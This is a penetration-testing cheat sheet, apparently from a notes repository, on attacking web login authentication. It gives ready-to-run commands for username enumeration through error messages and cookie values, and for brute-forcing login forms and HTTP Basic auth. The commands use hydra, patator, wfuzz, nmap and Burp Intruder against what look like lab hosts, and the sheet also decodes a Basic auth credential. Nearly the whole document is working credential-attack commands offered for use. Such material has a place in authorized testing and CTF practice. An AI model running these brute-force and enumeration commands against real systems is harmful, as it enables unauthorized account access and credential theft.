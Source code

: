 # Authentication Attacks

## Authentication Attacks



## Enumerate HTML Login Forms

We can use curl to view page source code and see the input of each data cell:

```bash
curl -s http://10.10.10.101/users/login.php | grep 'input name'
```

## HTTP Create User via POST

We can create a user with curl:

```text
curl -X POST -d 'username=testing123&password=test123&confirm=test123' http://victim/
```



### HTTP Basic Authentication

Decode

```bash
❯ echo -n 'dG9tY2F0OnMzY3JldA==' | base64 -d
tomcat:s3cret
```

Encode

```bash
❯ echo -n 'tomcat:s3cret' | base64
dG9tY2F0OnMzY3JldA==
```

#### Using HTTP Authentication

We can authenticate with curl:

```bash
curl -s -X GET http://10.10.10.95:8080/manager/html -H 'Authorization: Basic dG9tY2F0OnMzY3JldA==' -H 'Cookie: JSESSIONID=3AF413E376448C04207FC529CF694B62'
```

#### Bruteforce HTTP Basic Authentication

hydra:

```bash
HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html
```

patator:

```bash
patator http_fuzz auth_type=basic url=http://10.10.10.95:8080/manager/html user_pass=FILE0 0=/opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -x ignore:code=401
```

hydra without proxy:

```text
hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.10:8080/manager/html
```

### Enumerating Usernames via Error Messages

We can enumerate usernames with error messages.

`Invalid User`

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack)
```

Load the dictionary with:

```text
Intruder -> Payloads -> Payload Options -> Load
```

Match the string 'Invalid User' from the HTTP response:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> Invalid User
```

Follow redirections on the target only:

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can view the help panel with:

```text
patator http_fuzz --help
```

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='Invalid User'
```

**wfuzz**

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
wfuzz -c -w names.txt -d "username=FUZZ&password=password" http://10.10.10.10/login.php
```

### Enumerating Usernames via Cookie Values

We can enumerate usernames with cookie values.

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack) Intruder -> Payloads -> Payload Options -> Load
```

Match the response string of an invalid user cookie parameter:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> wrong_user
```

Follow redirections on the target only

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can do a username enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt --x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='wrong_user'
```

### Password Enumeration

#### patator

We can do a password enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=admin&password=FILE0&Submit=Login' 0=passwords.txt --x ignore:fgrep='Invalid Password'
```

## Brute Force in Login Forms

### nmap

```text
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=domain_name,http-brute.method=POST,http-brute.path=/login,userdb=users.txt,passdb=passwords.txt' -v domain_name -n
```

### hydra

```text
hydra -l username -P <IP> http-post-form "/login_file.php:username_parameter=^USER^&password_parameter=^PASS^:error message"

hydra -l username; -P passlist.txt <IP> https-post-form "/directory/filname.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64

hydra -l admin -P /opt/SecLists/Passwords/10k_most_common.txt <IP> http-post-form "/dir/filename.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

### wfuzz

```text
wfuzz -c -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> -hh 440

wfuzz --hh 1073 -c -u http://10.10.10.101/users/login.php -X POST -d "Username=admin&Password=FUZZ&Submit=Login" -w /opt/SecLists/Passwords/darkweb2017-top10000.txt

wfuzz -c -z wordlist1.txt wordlist2.txt -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> --hw 430

wfuzz --hw 36 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -d 'username=admin&password=FUZZ&submit=Login' http://10.10.10.86/login
```

#### wfuzz with cookie

```text
wfuzz -w cewl.out -d '<parameters>' -b '<cookie_value>' http://<IP>/login/index.php

wfuzz --hw 29 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -H 'Cookie: password=FUZZ' http://10.10.10.86:8080/ 

wfuzz --hc 200 -w cewl.out -d 'username=FUZZ&passwd=Curling2018!&otherparameters" -b <cookie> http://<ip>/administrator/index.php
```

#### wfuzz with proxy

```text
wfuzz -w cewl.out -d '<parameters>' -p 127.0.0.1:8080 http://<IP>/login/index.php
```

### patator

```text
patator http_fuzz url=http://10.10.10.108/zabbix/index.php method=POST body= 'name=zapper&password=FILE0&autologin=1&enter=Sign+in' 0=/usr/share/SecLists/Passwords/darkweb2017-top1000.txt accept\_cookie=1 follow=1 -x ignore:fgrep= 'Login name or password is incorrect.'
patator http_fuzz url=http://10.10.10.101/users/login.php method=POST body='Username=admin&Password=FILE0&Submit=Login' 0=/opt/SecLists/Passwords/darkweb2017-top10000.txt follow=1 -x ignore:fgrep='Invalid Login Details'
```



